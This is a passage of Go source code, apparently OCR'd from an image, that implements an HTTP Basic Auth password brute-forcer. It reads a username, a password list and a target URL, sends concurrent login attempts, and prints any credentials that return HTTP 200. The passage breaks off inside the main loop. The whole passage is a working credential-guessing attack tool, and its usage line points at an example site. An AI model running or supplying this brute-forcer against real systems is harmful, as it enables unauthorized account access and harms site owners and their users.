 ```
Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url> 

Example: 
  ` + os.Args[0] + ` admin passwords.txt https://www.test.com 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testBasicAuth(url, username, password string, doneChannel chan bool) { 
   client := &http.Client{} 
   request, err := http.NewRequest("GET", url, nil) 
   request.SetBasicAuth(username, password) 

   response, err := client.Do(request) 
   if err != nil { 
      log.Fatal(err) 
   } 
   if response.StatusCode == 200 { 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
         password) 
      os.Exit(0) 
    } 
    doneChannel <- true 
} 

func main() { 
   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testBasicAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
```